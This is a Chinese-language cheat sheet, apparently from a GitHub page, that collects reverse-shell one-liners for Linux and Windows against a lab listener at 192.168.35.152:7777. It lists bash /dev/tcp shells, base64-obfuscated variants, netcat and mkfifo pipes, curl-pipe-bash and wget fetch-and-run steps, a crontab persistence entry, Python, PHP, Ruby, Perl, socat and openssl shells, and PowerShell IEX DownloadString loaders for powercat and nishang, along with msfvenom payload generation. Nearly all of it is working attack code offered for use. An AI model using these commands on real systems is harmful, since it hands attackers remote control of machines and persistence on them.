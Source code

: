 # 反弹Shell-Linux

```bash
【监听端】centos: 192.168.35.152
【被控端】kali: 192.168.35.128
    
# 监听端执行
[root@localhost ~]# nc -vvl 7777
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
```

## bash

```python
┌──(root@kali)-[/home/kali]
└─# bash -i >& /dev/tcp/192.168.35.152/7777 0>&1     # 执行失败                                   
zsh: 没有那个文件或目录: /dev/tcp/192.168.35.152/7777 
```

## bash base64

```bash
# /bin/bash -i >& /dev/tcp/192.168.35.152/7777 0>&1
bash -c '{echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMzUuMTUyLzc3NzcgMD4mMSAgIA==}|{base64,-d}|{bash,-i}'
```

## bash base64 URLencode

```bash
# /bin/bash -i >& /dev/tcp/192.168.35.152/7777 0>&1
bash -c '{echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMzUuMTUyLzc3NzcgMD4mMSAgIA%3D%3D}|{base64,-d}|{bash,-i}'
```

## nc

```bash
nc -e /bin/bash 192.168.35.152 7777
mknod backpipe p && nc 192.168.35.152 7777 0<backpipe | /bin/bash 1>backpipe 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.35.152 7777 >/tmp/f
```

## ncat

```bash
ncat  192.168.35.152 7777 -e /bin/bash
ncat --udp 192.168.35.152 7777 -e /bin/bash
```

## curl

```bash
# kali开启http服务，把bash命令写入html文件
cat bash.html
/bin/bash -i >& /dev/tcp/192.168.35.152/7777 0>&1

# centos
curl 192.168.35.152/bash.html|bash
```

## http

攻击方：

```bash
# 编写shell脚本并启动http服务器
echo "bash -i >& /dev/tcp/192.168.35.152/7777 0>&1" > shell.sh
python2环境下：python -m SimpleHTTPServer 80
python3环境下：python -m http.server 80
```

被控端：

```bash
# 上传shell.sh文件
wget 192.168.35.152/shell.sh
# 执行shell.sh文件
bash shell.sh
```

## crontab

```bash
* * * * * root bash -i >& /dev/tcp/192.168.35.152/7777  0>&1
```

## whois

```bash
# 只能执行指定命令，如pwd命令
whois -h 192.168.35.152 -p 7777 `pwd` 
```

## python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.35.152",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## php

```bash
php -r '$sock=fsockopen("192.168.35.152",7777);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("192.168.35.152",7777).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'  # 执行失败
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.35.152","7777");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## socat

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.35.152:7777
```

## perl

```bash
perl -e 'use Socket;$i="192.168.35.152";$p=7777;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## php

```bash
php -r '$sock=fsockopen("192.168.35.152",7777);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## openssl

```bash
# 监听端
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 7777
# or
ncat --ssl -vv -l -p 7777

# 受控端
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.35.152:7777 > /tmp/s; rm /tmp/s
```

# 反弹Shell-Windows

- Windows下的反弹shell仅测试了nc，执行成功。

```bash
【监听端】centos: 192.168.35.152
【被控端】windows: 192.168.35.1
    
# 监听端执行
[root@localhost ~]# nc -vvl 7777
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
```

## powercat

项目地址：https://github.com/besimorhino/powercat

```bash
System.Net.Webclient.DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.35.152 -p 7777 -e cmd
```

## nc

```bash
nc 192.168.35.152 7777 -e c:\windows\system32\cmd.exe
```

## nishang

Nishang是一个基于PowerShell的攻击框架，整合了一些PowerShell攻击脚本和有效载荷，可反弹TCP/ UDP/ HTTP/HTTPS/ ICMP等类型shell。

项目地址：https://github.com/samratashok/nishang

```bash
# 将nishang下载到攻击者本地，在目标机使用powershell执行以下命令
IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.35.152 -port 7777
```

## Reverse UDP shell

```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.35.152/nishang/Shells/Invoke-PowerShellUdp.ps1');

Invoke-PowerShellUdp -Reverse -IPAddress 192.168.35.152 -port 7777
```

## MSF

```bash
# 找出各类反弹一句话payload的路径信息
msfvenom -l payloads | grep 'cmd/windows/reverse'

# 生成反弹shell，复制粘贴到靶机上运行
msfvenom -p cmd/windows/reverse_powershell LHOST=192.168.35.152 LPORT=7777
```

